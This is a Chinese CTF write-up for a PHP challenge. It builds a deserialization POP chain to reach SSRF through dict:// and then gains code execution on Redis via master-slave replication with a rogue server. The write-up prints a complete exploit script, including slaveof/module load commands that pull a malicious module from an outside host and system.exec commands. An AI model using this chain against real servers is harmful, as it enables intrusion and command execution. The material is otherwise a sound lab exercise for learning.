



# ezezez_php

[参考视频地址及靶场均为大佬提供](https://www.bilibili.com/video/BV1Qe411E75F/?spm_id_from=333.1007.top_right_bar_window_history.content.click&vd_source=7c5ad328727ff3f8a17fcd19cacf7a5e)

## 知识点

`php反序列化`

`redis主从复制`

## 解题

进入靶场后可以看到`php`源码，进行源码分析发现为`php`反序列化，类方法较多，看一下如何构造`pop`链

```php
<?php
highlight_file(__FILE__);
include "function.php";
class Rd
{
    public $ending;
    public $cl;

    public $poc;

    public function __destruct()
    {
        echo "All matters have concluded" . "</br>";
    }

    public function __call($name, $arg)
    {
        foreach ($arg as $key => $value) {

            if ($arg[0]['POC'] == "0.o") {
                $this->cl->var1 = "get";
            }
        }
    }
}

class Poc
{
    public $payload;

    public $fun;

    public function __set($name, $value)
    {
        $this->payload = $name;
        $this->fun = $value;
    }

    function getflag($paylaod)
    {
        echo "Have you genuinely accomplished what you set out to do?" . "</br>";
        file_get_contents($paylaod);
    }
}

class Er
{
    public $symbol;
    public $Flag;

    public function __construct()
    {
        $this->symbol = True;
    }

    public function __set($name, $value)
    {
        if (preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/', base64_decode($this->Flag))) {
            $value($this->Flag);
        } else {
            echo "NoNoNo,please you can look hint.php" . "</br>";
        }
    }
}

class Ha
{
    public $start;
    public $start1;
    public $start2;

    public function __construct()
    {
        echo $this->start1 . "__construct" . "</br>";
    }

    public function __destruct()
    {
        if ($this->start2 === "o.0") {
            $this->start1->Love($this->start);
            echo "You are Good!" . "</br>";
        }
    }
}

function get($url)
{
    $url = base64_decode($url);
    var_dump($url);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $output = curl_exec($ch);
    $result_info = curl_getinfo($ch);
    var_dump($result_info);
    curl_close($ch);
    var_dump($output);
}


if (isset($_POST['pop'])) {
    $a = unserialize($_POST['pop']);
} else {
    die("You are Silly goose!");
}
You are Silly goose!
```

首先从`pop`链入口开始，首先找一下`__destruct`方法

```php
class Rd
{
    public function __destruct()
    {
        echo "All matters have concluded" . "</br>";
    }
}
```

```php
class Ha
{
    public function __destruct()
    {
        if ($this->start2 === "o.0") {
            $this->start1->Love($this->start);
            echo "You are Good!" . "</br>";
        }
    }
}
```

两个`析构函数(__destruct)`，能利用的是`Ha`类的`__destrust`

然后从这里的析构函数继续往下，第一个`$this->start2 === "o.0"`容易构造，主要是第二部分`$this->start1->Love`

该部分调用了不存在的方法`Love`，就涉及到了`__call`函数,当调用类中不存在的函数时会调用`__call`函数，那么继续找一下`__call()`

```php
class Rd
{
    public function __call($name, $arg)
    {
        foreach ($arg as $key => $value) {

            if ($arg[0]['POC'] == "0.o") {
                $this->cl->var1 = "get";
            }
        }
    }
}
```

只有`Rd`类中有`__call`函数，`$name`是上面的`Love`，`$arg`是上面的`$this->start`,要求`$this->start`为字典类型，切第一个键值对，键为`POC`，值为`0.o`，继续跟进，发现调用了不存在的变量`var1`，`php`中对不存在的变量赋值会调用类的`__set`方法。继续找`set`方法

```php
class Poc
{
    public function __set($name, $value)
    {
        $this->payload = $name;
        $this->fun = $value;
    }
}
```

```php
class Er
{
    public function __set($name, $value)
    {
        if (preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/', base64_decode($this->Flag))) {
            $value($this->Flag);
        } else {
            echo "NoNoNo,please you can look hint.php" . "</br>";
        }
    }
}
```

发现`Er`类的`__set`可利用，则继续跟进，`$value`已经被赋值为`get`，那么这里就代表着调用了外部的`get`方法,`get($this->Flag);`,且要求`base64`解码后的`$this->Flag`满足`'/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/'`的正则表达式

构造`pop`链

```php
<?php
class Rd
{
    public $ending;
    public $cl;

    public $poc;

}

class Poc
{
    public $payload;

    public $fun;

}

class Er
{
    public $symbol;
    public $Flag;

}

class Ha
{
    public $start;
    public $start1;
    public $start2;

}

function get($url)
{
    $url = base64_decode($url);
    var_dump($url);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $output = curl_exec($ch);
    $result_info = curl_getinfo($ch);
    var_dump($result_info);
    curl_close($ch);
    var_dump($output);
}


$a = new Ha();
$a -> start2 = "o.0";
$a -> start1 = new Rd();
$a -> start = ["POC" => "0.o"];
$a -> start1 -> cl = new Er();
$a -> start1 -> cl -> Flag = base64_encode("dict://127.0.0.1/info");
};
```

发现可以获取到`redis`信息



这里使用`redis主从复制`进行攻击，因为机器不出网，所以重新开一台靶机,使用[redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

[参考手动操作命令](https://www.cnblogs.com/xiaozi/p/13089906.html)

靶机上先获取`ip`，我的靶机`ip`为`172.2.0.76`

使用命令运行`redis-rogue-server`

```bash
python3 redis-rogue-server.py --server-only
```



对每一个手动操作的命令都去生成再手动请求过于麻烦，所以使用`php`直接进行`post`请求并返回命令执行结果即可

`payload`

```php
<?php
class Rd
{
    public $ending;
    public $cl;

    public $poc;

}

class Poc
{
    public $payload;

    public $fun;

}

class Er
{
    public $symbol;
    public $Flag;

}

class Ha
{
    public $start;
    public $start1;
    public $start2;

}

function get($url)
{
    $url = base64_decode($url);
    var_dump($url);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $output = curl_exec($ch);
    $result_info = curl_getinfo($ch);
    var_dump($result_info);
    curl_close($ch);
    var_dump($output);
}


$a = new Ha();
$a -> start2 = "o.0";
$a -> start1 = new Rd();
$a -> start = ["POC" => "0.o"];
$a -> start1 -> cl = new Er();
// $a -> start1 -> cl -> Flag = base64_encode("dict://127.0.0.1/info");

$payloadArray = [
    "config set dir /tmp/",     // "config:set:dir:/tmp/"
    "config set dbfilename exp.so",
    "slaveof 172.2.0.76 21000",
    "module load /tmp/exp.so",
    "slaveof no one",
    "system.exec 'whoami'",
    "system.exec 'env'",
    "system.exec 'ls /'",
    "system.exec 'cat /flag_is_here'"
];

$url = "http://hazelshishuaige.club:9116/index.php";

foreach ($payloadArray as $value) {
    # code...
    $payload = "dict://127.0.0.1:6379/" . $value;
    // echo $payload;
    $a -> start1 -> cl -> Flag = base64_encode($payload);
    $serPayload = serialize($a);

    sleep(2);

    $postData = [
        "pop" => $serPayload
    ];
    
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $postData);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

    $response = curl_exec($ch);
    curl_close($ch);
    
    // echo $response;
    echo preg_replace('/<code>.*?<\/code>/s', "", $response);
};
```

最终运行效果

